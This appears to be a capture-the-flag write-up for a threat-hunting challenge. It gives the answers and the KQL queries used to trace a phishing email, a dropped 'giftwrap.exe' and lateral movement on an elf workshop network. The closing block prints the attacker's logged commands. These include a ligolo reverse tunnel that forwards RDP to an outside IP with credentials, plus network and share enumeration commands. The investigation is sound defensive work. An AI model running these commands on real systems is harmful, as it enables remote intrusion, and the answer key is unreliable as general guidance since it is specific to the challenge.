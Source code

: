 - How many Craftperson Elf's are working from laptops? ```25```
```Kql
Employees 
| where role has "Craftsperson Elf" 
| where hostname has "LAPTOP"
| count
```
---------------
- What is the email address of the employee who received this phishing email? ```alabaster_snowball@santaworkshopgeeseislands.org```
- What is the email address that was used to send this spear phishing email? ```cwombley@gmail.com```
- What was the subject line used in the spear phishing email? ```[EXTERNAL] Invoice foir reindeer food past due```
```Kql
Email
| where link has "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
```
---------------
- What is the role of our victim in the organization? ```Head Elf```
- What is the hostname of the victim's machine? ```Y1US-DESKTOP```
- What is the source IP linked to the victim? ```10.10.0.4```
```Kql
Employees
| where email_addr == "alabaster_snowball@santaworkshopgeeseislands.org"
```
---------------
- What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs! ```2023-12-02T10:12:42Z```
- What file is dropped to Alabaster's machine shortly after he downloads the malicious file? ```giftwrap.exe```
---------------
```Kql
FileCreationEvents
| where hostname == "Y1US-DESKTOP"
| sort by timestamp
```
---------------
- The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to? ```113.37.9.17```
- What is the timestamp when the attackers enumerated network shares on the machine? ```2023-12-02T16:51:44Z```
- What was the hostname of the system the attacker moved laterally to? ```NorthPolefileshare```
```Kql
ProcessEvents
| where hostname == "Y1US-DESKTOP"
| where timestamp >= datetime("2023-12-02T10:12:42Z")
| where parent_process_hash == "614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f"
```
```
"ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
netstat
ipconfig
arp -a
netstat -an
nbtstat-n
net view /DOMAIN
net share
net use
net config
systeminfo
"C:\Users\alsnowball\AppData\Local\Microsoft\Teams\current\Teams.exe" --type=relauncher --no-sandbox --- 
```
